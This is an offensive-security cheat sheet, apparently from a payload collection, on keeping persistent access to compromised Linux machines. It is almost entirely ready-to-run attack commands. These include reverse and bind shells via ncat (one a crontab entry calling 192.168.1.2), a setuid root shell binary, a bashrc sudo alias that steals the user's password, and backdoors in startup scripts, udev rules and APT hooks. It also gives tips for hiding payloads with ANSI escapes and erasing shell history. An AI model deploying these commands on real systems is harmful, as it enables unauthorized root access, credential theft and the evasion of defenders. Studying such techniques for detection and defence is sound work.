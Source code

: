 # Linux - Persistence

## Basic reverse shell

```bash
ncat --udp -lvp 4242
ncat --sctp -lvp 4242
ncat --tcp -lvp 4242
```

## Suid Binary

```powershell
TMPDIR2="/var/tmp"
echo 'int main(void){setresuid(0, 0, 0);system("/bin/sh");}' > $TMPDIR2/croissant.c
gcc $TMPDIR2/croissant.c -o $TMPDIR2/croissant 2>/dev/null
rm $TMPDIR2/croissant.c
chown root:root $TMPDIR2/croissant
chmod 4777 $TMPDIR2/croissant
```

## Crontab (Reverse shell to 192.168.1.2 on port 4242)

```bash
(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null
```

## Backdooring an user's bash_rc (FR/EN Version)

```bash
TMPNAME2=".systemd-private-b21245afee3b3274d4b2e2-systemd-timesyncd.service-IgCBE0"
cat << EOF > /tmp/$TMPNAME2
  alias sudo='locale=$(locale | grep LANG | cut -d= -f2 | cut -d_ -f1);if [ \$locale  = "en" ]; then echo -n "[sudo] password for \$USER: ";fi;if [ \$locale  = "fr" ]; then echo -n "[sudo] Mot de passe de \$USER: ";fi;read -s pwd;echo; unalias sudo; echo "\$pwd" | /usr/bin/sudo -S nohup nc -lvp 1234 -e /bin/bash > /dev/null && /usr/bin/sudo -S '
EOF
if [ -f ~/.bashrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.bashrc
fi
if [ -f ~/.zshrc ]; then
    cat /tmp/$TMPNAME2 >> ~/.zshrc
fi
rm /tmp/$TMPNAME2
```


## Backdooring a startup service

```bash
RSHELL="ncat $LMTHD $LHOST $LPORT -e \"/bin/bash -c id;/bin/bash\" 2>/dev/null"
sed -i -e "4i \$RSHELL" /etc/network/if-up.d/upstart
```

## Backdooring a driver

```bash
echo "ACTION==\"add\",ENV{DEVTYPE}==\"usb_device\",SUBSYSTEM==\"usb\",RUN+=\"$RSHELL\"" | tee /etc/udev/rules.d/71-vbox-kernel-drivers.rules > /dev/null
```

## Backdooring the APT

If you can create a file on the apt.conf.d directory with: `APT::Update::Pre-Invoke {"CMD"};`
Next time "apt-get update" is done, your CMD will be executed!

```bash
echo 'APT::Update::Pre-Invoke {"nohup ncat -lvp 1234 -e /bin/bash 2> /dev/null &"};' > /etc/apt/apt.conf.d/42backdoor
```

## Tips

Hide the payload with ANSI chars, the following chars will clear the terminal when using cat to display the content of your payload.

```bash
#[2J[2J[2J[2H[2A# Do not remove. Generated from /etc/issue.conf by configure.
```

Clear the last line of the history.

```bash
history -d $(history | tail -2 | awk '{print $1}') 2> /dev/null
```

Clear history

```bash
[SPACE] ANY COMMAND
or
export HISTSIZE=0
export HISTFILESIZE=0
unset HISTFILE; CTRL-D
or
kill -9 $$
or
echo "" > ~/.bash_history
or
rm ~/.bash_history -rf
or
history -c
or
ln /dev/null ~/.bash_history -sf
```

The following directories are temporary and usually writeable

```bash
/var/tmp/
/tmp/
/dev/shm/
```

## Thanks to

* [@RandoriSec - https://twitter.com/RandoriSec/status/1036622487990284289](https://twitter.com/RandoriSec/status/1036622487990284289)
* [https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/](https://blogs.gnome.org/muelli/2009/06/g0t-r00t-pwning-a-machine/)
* [http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html](http://turbochaos.blogspot.com/2013/09/linux-rootkits-101-1-of-3.html)
* [http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/](http://www.jakoblell.com/blog/2014/05/07/hacking-contest-rootkit/)
* [Pouki from JDI](#no_source_code)